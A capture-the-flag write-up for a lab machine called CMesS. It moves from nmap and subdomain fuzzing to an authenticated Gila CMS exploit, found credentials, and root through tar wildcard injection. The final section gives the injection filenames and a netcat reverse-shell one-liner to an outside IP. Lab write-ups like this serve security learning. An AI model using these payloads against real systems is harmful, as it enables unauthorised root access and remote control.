# CMesS

#Linux #GilaCMS #PrivEsc #Wildcard


## Reconnaissance

I started running nmap and I get the following result.

```
$ nmap -sV -Pn cmess.thm   
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-16 05:26 -0500
Nmap scan report for cmess.thm (10.65.137.136)
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.98 seconds
```

Accessing the main port `80`, I got this following page.

<figure><figcaption></figcaption></figure>

## Enumeration

I couldn't find anything interesting searching for directories and files, only a `admin` page.I started to look for subdomains and I found one called `dev`. 

```
$ ffuf -u http://10.67.175.21 -H "Host: FUZZ.cmess.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 522

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.67.175.21
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.cmess.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 522
________________________________________________

dev                     [Status: 200, Size: 934, Words: 191, Lines: 31, Duration: 170ms]
```

Accessing the page, I found a password for `andre@cmess.thm`.

<figure><figcaption></figcaption></figure>

I was able to validate these credentials accessing `admin` page found before.

<figure><figcaption></figcaption></figure>

Since the application is based on `Gila CMS`, I tried to find some public exploits.

<figure><figcaption></figcaption></figure>

Using this exploit, since I can authenticate on the application, I was able to get a shell.

<figure><figcaption></figcaption></figure>

Looking for the first flag, I noticed that I didn't have permission to access `andre` folder.

<figure><figcaption></figcaption></figure>

Running linpeas script, I found some interesting things, we can notice that the following command is executed within a time, the `/tmp` has root privilege and we can take the advantage of `gz *`

<figure><figcaption></figcaption></figure
<figure><figcaption></figcaption></figure>

Extracting the content, we can see that there is nothing interesting.

<figure><figcaption></figcaption></figure>

## Login as `Andre`

I got stuck and started looking for any information that had gone unnoticed. I found a file `.password.bak` which contains Andre's password.

<figure><figcaption></figcaption></figure>

I was able to login as Andre and read the `user.txt` flag.

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
## Privilege Escalation

Looking for `tar wildcard privilege escalation` I found an article that helped me to take advantage of this. I needed to run these followings commands.

```bash
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.130.101 1337 >/tmp/f" > shell.sh
```

Waiting 2 minutes, I got a shell.

<figure><figcaption></figcaption></figure>

Reading `root.txt` flag.

<figure><figcaption></figcaption></figure>